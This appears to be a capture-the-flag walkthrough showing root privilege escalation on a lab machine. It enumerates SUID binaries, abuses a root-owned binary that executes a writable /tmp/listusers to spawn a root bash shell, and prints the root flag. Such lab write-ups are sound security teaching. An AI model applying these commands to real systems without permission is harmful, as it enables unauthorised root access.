




We are going to search for binaries with the SUID bit set that could allow us to perform a privilege escalation.
```bash
$ find / -perm -4000 2>/dev/null
```


In this case, we see `/usr/bin/viewuser`, which is not usually visible. We are going to check who the owner of this binary is.
```bash
$ ls -l /usr/bin/viewuser
$ file /usr/bin/viewuser
```



We can see that the owner is `root` and that the binary is executable, so we will run it to see what it does.
```bash
$ /usr/bin/viewuser
```



When we execute it, we see a message stating that this application is being developed to configure and test user permissions. We also notice that it attempts to access the following path: `/tmp/listusers: not found`, but it does not exist.

It is executing `/tmp/listusers`, and since it does not exist, it throws an error. However, this means that you can create that file with whatever content you want, and it will be executed with the permissions of `viewuser`.
Since `viewuser` has the SUID bit set and is executed by `root`, we can perform a privilege escalation because the commands we run will be executed with root privileges:
```bash
$ echo "bash" > /tmp/listusers
$ chmod +x /tmp/listusers
$ /usr/bin/viewuser
```
1. `echo "bash" > /tmp/listusers`  
Creates the `/tmp/listusers` file with the content `bash`. Since the binary attempts to execute that file, we are instructing it to launch a bash shell.

2. `chmod +x /tmp/listusers`  
Gives execution permissions to the file, because if it is not executable, the system will not be able to run it.

3. `/usr/bin/viewuser`  
Executes the vulnerable binary, which internally calls `/tmp/listusers`, which is now our bash script. If `viewuser` runs as root (SUID), the bash shell that opens will inherit those privileges, and you will become root.



Indeed, the privilege escalation was successful, and we can now obtain the root flag.
```bash
Root Flag → daf60a4c223df86e0545dcc568900621
```


[Back](README.md)